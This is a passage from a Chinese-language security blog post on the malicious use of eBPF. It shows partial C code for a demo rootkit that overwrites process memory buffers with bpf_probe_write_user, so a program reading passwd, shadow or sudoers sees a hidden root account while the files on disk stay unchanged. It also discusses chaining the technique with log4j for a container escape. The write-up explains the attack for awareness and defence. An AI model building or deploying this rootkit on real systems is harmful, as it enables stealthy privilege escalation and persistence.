 ```c
            bpf_probe_read(&local_buff, MAX_PAYLOAD_LEN, (void*)buff_addr);
            for (unsigned int i = 0; i < MAX_PAYLOAD_LEN; i++) {
                if (i >= payload_passwd_len) {
                    local_buff[i] = ' ';
                }
                else {
                    local_buff[i] = payload_passwd[i];
                }
            }
        }
        break;
    case FILE_TYPE_SHADOW:
        // 覆盖 shadow文件
        ...
        break;
    case FILE_TYPE_SUDOERS:
        //覆盖sudoers
        ...
        break;
    default:
        return 0;
        break;
    }


    // 将payload内存写入到buffer
    ret = bpf_probe_write_user((void*)buff_addr, local_buff, MAX_PAYLOAD_LEN);
    // 发送事件到用户态
   
    return 0;
}
```


按照如上Demo rootkit的设计，即完成了随机用户名密码的root账号添加。在鉴权认证上，也可以配合“eBPF网络层恶意利用”的Demo，利用eBPF map交互，实现相应鉴权。但rootkit本身并没有更改硬盘上文件，不产生风险行为。并且，只针对特定进程的做覆盖，隐蔽性更好。整个流程如下图所示：



![eBPF在runtime安全场景恶意利用](https://image.cnxct.com/2022/02/ebpf-evil-user-runtime-1-1.jpg)



不管是在物理机上，还是给了root\+BPF权限的容器上，都一样生效。



#### 视频演示


#### 严重危害


云原生场景下，赋予SYS\_ADMIN权限的容器场景很多，若配合近期的“Java log4j”漏洞，直接击穿容器，拿到宿主机权限，是不是很可怕？


